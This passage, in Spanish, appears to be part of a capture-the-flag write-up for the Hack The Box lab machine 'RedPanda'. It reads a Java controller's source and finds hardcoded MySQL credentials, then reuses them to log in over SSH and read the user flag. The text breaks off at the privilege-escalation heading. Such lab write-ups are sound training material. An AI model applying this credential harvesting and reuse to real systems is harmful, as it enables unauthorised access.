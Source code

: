 ### Enumeración Manual

Debido a que no se puede obtener un shell inverso, la enumeración manual de la máquina se debe realizar mediante el formulario web.

Examinando el código fuente de la aplicación:

```bash
# cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
```

Dentro del código fuente de búsqueda de Panda, encontramos credenciales de base de datos:

```java
public ArrayList searchPanda(String query) {
    Connection conn = null;
    PreparedStatement stmt = null;
    ArrayList<ArrayList> pandas = new ArrayList();
    try {
        Class.forName("com.mysql.cj.jdbc.Driver");
        conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
        stmt = conn.prepareStatement("SELECT name, bio, imgloc, author FROM pandas WHERE name LIKE ?");
        stmt.setString(1, "%" + query + "%");
        ResultSet rs = stmt.executeQuery();
        while(rs.next()){
            ArrayList<String> panda = new ArrayList<String>();
            panda.add(rs.getString("name"));
            panda.add(rs.getString("bio"));
            panda.add(rs.getString("imgloc"));
            panda.add(rs.getString("author"));
            pandas.add(panda);
        }
    }catch(Exception e){ System.out.println(e);}
    return pandas;
}
```

### Acceso SSH

Accedemos a la máquina a través de SSH y buscamos la flag de usuario:

```bash
ssh woodenk@10.10.11.170
# Password: RedPandazRule

woodenk@redpanda:~$ cat user.txt 
[CENSORED]
```

## Escalada de Privilegios

### Análisis de Procesos
